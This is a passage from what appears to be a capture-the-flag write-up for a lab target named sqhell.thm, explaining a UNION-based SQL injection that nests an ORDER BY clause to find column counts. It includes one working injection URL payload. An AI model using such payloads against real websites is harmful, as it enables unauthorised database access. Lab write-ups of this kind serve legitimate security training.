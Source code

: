 <figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Here I’ve just added an ORDER BY query to the end of the UNION SELECT 1, and enclosed it in quotes so it gets evaluated. As before we keep adding columns until we something changes:

```
http://sqhell.thm/user?id=1337 union select "1 order by 1,2,3,4,5-- -",2,3 from information_schema.tables where table_schema=database()
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
